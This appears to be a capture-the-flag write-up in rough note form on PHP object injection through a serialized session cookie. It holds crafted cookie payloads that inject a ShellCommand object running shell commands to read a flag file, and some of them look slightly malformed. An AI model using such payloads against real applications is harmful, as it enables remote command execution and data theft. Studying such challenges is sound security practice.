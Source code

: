 ## strategy
* cookie looks like this: 
```
session=O%3A4%3A%22User%22%3A4%3A%7Bs%3A3%3A%22uid%22%3Bi%3A1234%3Bs%3A4%3A%22name%22%3Bs%3A5%3A%22guest%22%3Bs%3A2%3A%22db%22%3BO%3A2%3A%22DB%22%3A1%3A%7Bs%3A9%3A%22db_driver%22%3BO%3A8%3A%22DBDriver%22%3A0%3A%7B%7D%7Ds%3A6%3A%22active%22%3Bb%3A1%3B%7D
```
* there are words in there like "User", "uid", "name", "guest", "db",  "DB", "db_driver", "Driver" and "active"
* seems like it is a serialized user object
* function __wakeup is essential for unserialization process: 
```
__sleep and __wakeup are methods that are related to the serialization process. 
serialize function checks if a class has a __sleep method. If so, it will be executed before any serialization. 
__sleep is supposed to return an array of the names of all variables of an object that should be serialized.

__wakeup in turn will be executed by unserialize if it is present in class. 
It's intention is to re-establish resources and other things that are needed to be initialized upon unserialization.
```


## strategy 
* build a cookie with. 
    ** DB object is a ShellCommand
    ** uid contains a command injection; it terminates the sql command and then executes 'cat flag.txt'

cookie: 
 1. Decode URL 
 
 cookie =     session=O:4:"User":4:{s:3:"uid";i:1234;s:4:"name";s:5:"guest";s:2:"db";O:2:"DB":1:{s:9:"db_driver";O:8:"DBDriver":0:{}}s:6:"active";b:1;}
 
 new_cookie = session=O:4:"User":4:{s:3:"uid";i:1337;s:4:"name";s:5:"admin";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:63:"echo $(cd ..; cd ..; cd ..; cd opt; cat flag.txt); echo "woop";":0:{}}s:6:"active";b:1;}
 old_cookie = session=O:4:"User":4:{s:3:"uid";i:5555;s:4:"name";s:5:"mello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:63:"echo $(cd ..; cd ..; cd ..; cd opt; cat flag.txt); echo "woop";";}s:6:"active";b:1;}